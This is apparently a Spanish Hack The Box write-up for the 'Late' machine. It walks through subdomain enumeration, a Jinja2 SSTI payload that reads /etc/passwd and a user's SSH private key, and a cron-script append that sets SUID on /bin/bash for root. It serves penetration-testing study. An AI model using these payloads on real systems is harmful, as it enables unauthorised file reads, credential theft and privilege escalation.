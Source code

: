 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON."
date: 2023-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-late/late_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - subdomain enumeration
  - abusing Upload File - Image to Text Flask Utility
  - SSTI
  - reading files through SSTI - SSH Private Key
  - Abusing Cron Job (Privilege Escalation)

---
```


Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON.

# PortScan
________
```
# Nmap 7.93 scan initiated Mon Nov 27 17:44:00 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 17:44:10 2023 -- 1 IP address (1 host up) scanned in 9.80 seconds
```

# WebSite
____

![](/assets/images/htb-writeup-late/Pasted image 20231127182726.png)

Enumerando posibles directorios & viendo el código fuente no encontré nada interesante, así que decidí enumerar posibles **sub-dominios** para éste dominio.

```bash
gobuster vhost -u http://late.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -k
===============================================================
de
===============================================================
Found: images.late.htb (Status: 200) [Size: 2187]
```

descubriendo así un sub-dominio "**images.late.htb**", hacemos virtual hosting metiendo éste en el "**/etc/hosts**", una vez tengamos esto podemos ingresar al sub-dominio, encontrándonos con ésto.

![](/assets/images/htb-writeup-late/Pasted image 20231127183209.png)

Viendo qué podemos convertir imágenes a texto, esto con el framework "**Flask**" qué está escrito en python.

Creamos una imagen con un texto básico ésto con la ayuda de "**libreoffice**" y "**scrot**" para tomar la captura.

1. Abrimos el "**libreoffice**" y ponemos un texto para tomarle captura.
![](/assets/images/htb-writeup-late/Pasted image 20231127183421.png)

2. Corremos el "**scrot**" con un tiempo de espera para que nos de chance a volver al **"libreoffice"** y tomar la captura.
```bash
sleep 3; scrot -s capture.png
```

y tendríamos la captura del texto en "**libreoffice**" en capture.png.
![](/assets/images/htb-writeup-late/Pasted image 20231127183606.png)

Procedemos a subir ésta imagen a ver sí esta fuente logra interpretarla correctamente.

![](/assets/images/htb-writeup-late/Pasted image 20231127183908.png)

Vemos lo está interpretando, como está corriendo un **Flask**, se me ocurre probar un **SSTI** con una operación básica de multiplicación a ver si logra interpretarlo...

1. Ponemos una operación básica en el "**libreoffice**"
![](/assets/images/htb-writeup-late/Pasted image 20231127184101.png)

2. Tomamos la captura con "scrot"
```bash
sleep 3; scrot -s capture.png
```


Una vez con la captura, la subimos para ver los resultados...

![](/assets/images/htb-writeup-late/Pasted image 20231127184356.png)
Estamos logrando llevar a cabo el **SSTI**, así que se me ocurre aprovecharnos de esto para llevar a cabo una lectura de archivos de la máquina y ver el "**/etc/passwd**".
![](/assets/images/htb-writeup-late/Pasted image 20231127193325.png)
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Así que con "**scrot**" tomo una captura de ésto y la subo, viendo como resultado el contenido del "**/etc/passwd**".

como vemos en el "**result.txt"**
![](/assets/images/htb-writeup-late/Pasted image 20231127194153.png)

Viendo un usuario válido del sistema, por lo qué se me ocurre ver si está la clave privada **SSH** expuesta para éste usuario, en **"/home/svc_acc/.ssh/id_rsa"**
![](/assets/images/htb-writeup-late/Pasted image 20231127195153.png)

vemos qué está expuesta, así que procedemos a conectarnos con **SSH** desde nuestra máquina, pero primero debemos quitarles las etiquetas "**< p >**"
para posterior a ello conectarnos tal que así:
```bash
mv results.txt id_rsa
ssh -i id_rsa svc_acc@10.10.11.156

```

![](/assets/images/htb-writeup-late/Pasted image 20231127195853.png)


# Escalada de Privilegios
___

con el binario de [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), no los enviamos a la máquina víctima desde un servidor python y le damos permisos de ejecución en la máquina víctima.
![](/assets/images/htb-writeup-late/Pasted image 20231127202232.png)

Vemos que **root**, está asignándole un atributo -**"a"** al script "**ssh-alert.sh**".

![](/assets/images/htb-writeup-late/Pasted image 20231127202450.png)

Vemos en los permisos que podemos editarlo, se me ocurre de primera darle permisos **SUID** a la bash ya que ROOT lo ejecuta.. pero nos deniega el permisos, esto por el atributo **"-a"**, que es "**append-only**", es decir, sólo podemos modificar el archivo metiéndole contenido desde append, es decir **>>**, sabiendo ésto.

1. en "**tmp**", creamos un archivo con contenido dentro que de permisos SUID a la Bash.
```
nano privesc.txt
```
2. Contenido del "**privesc.txt**"
```bash
chmod u+s /bin/bash
```

3. metemos el contenido de "privesc.txt" a "ssh-alert.sh":
```bash
cat privesc.txt >> /usr/local/sbin/ssh-alert.sh
```

4. Esperamos a qué se vuelva ejecutar la tarea CRON y ya la bash tendría SUID.
![](/assets/images/htb-writeup-late/Pasted image 20231127203036.png)

